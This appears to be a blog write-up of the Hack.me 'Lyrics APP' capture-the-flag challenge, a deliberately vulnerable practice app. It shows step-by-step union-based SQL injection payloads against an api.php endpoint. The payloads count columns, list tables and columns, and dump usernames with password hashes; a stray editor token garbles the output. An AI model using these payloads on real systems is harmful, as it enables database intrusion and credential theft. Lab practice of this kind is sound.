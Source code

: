 ```yaml
---
layout: post
title: Hack.me - Lyrics APP
categories: [ctf]
tags: [ctf, wargames, web]
fullview: false
comments: true
---
```


[Hack.me](https://hack.me) is one of those great resources every wannabe hacker should know. Like HackTheBox and Root-me, this is a valuable place to practice. Let me show it with an easy writeup.
Check here the [Lyrics APP](https://hack.me/103027/lyrics-app.html) challenge.

# First steps

Whenever facing a target for the first time, do not skip the basics. Checking the source code is always somehting in my checklist, although any decent site should probably not contain any specially valuable information. In this case however we find `guest/guest` as a valid credential. Yep, really simple, yet I heard many people wasted hours banging their heads against the login form.

# Look under the carpet

This chall is not difficult, but it can take a long timne if you are not looking in the right place. It might deceive you and make you think the vulnerability lies in the login form. Well guess what, it does not.

    “Talk is cheap. Show me the code.” (Linus)

Again, check the code. When you do it you will find a screaming `XMLHttpRequest` to `api.php?id=xxx` which looks damn suspicious. Browsing that page with `id=1` we see a JSON result corresponding to the first lyric in the page. Now it is all about the bass.

# The real deal

Most of the techniques used here can be found in [this aewsome page](breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html). First thing to notice is this is an *error-based SQLi*. Whenever our query results in an error, an unexpected result should show up (like a blank page).

## Finding the number of columns

~~~
api.php?id=2 order by 1-- 
api.php?id=2 order by 2-- 
api.php?id=2 order by 3-- 
api.php?id=2 order by 4-- 
api.php?id=2 order by 5-- (blank page)
~~~

Great, 4 columns. 

## Finding the table name

    http://s76480-103027-bfl.croto.hack.me/api.php?id=-1%20union%20select%201,2,3,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()
    {"id":"1","artist":"2","title":"3","lyric":"lyrics,users"} 

## Finding the column name

    http://s76480-103027-bfl.croto.hack.me/api.php?id=-1%20union%20select%201,2,3,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()--
    {"id":"1","artist":"2","title":"3","lyric":"id,artist,title,lyric,id,username,password"} 

## Dumping the data

    http://s76480-103027-bfl.croto.hack.me/api.php?id=-1%20union%20select%201,2,3,group_concat(username,%200x3a,%20password)%20from%20users-- 
    {"id":"1","artist":"2","title":"3","lyric":"jackson.michael:7c6a180b36896a0a8c02787eeafb0e4c,lennon.john:6cb75f652a9b52798eb6cf2201057c73,mercury.freddie:819b0643d6b89dc9b579fdfc9094f28e<Plug>PeepOpenresley.elvis:34cc93ece0ba9e3f6f235d4af979b16c,brown.james:db0edd04aaac4506f7edab03ac855d56,guest:084e0343a0486ff05530df6c705c8bb4"} 

![That is All Folks](https://upload.wikimedia.org/wikipedia/commons/thumb/e/ea/Thats_all_folks.svg/2000px-Thats_all_folks.svg.png)
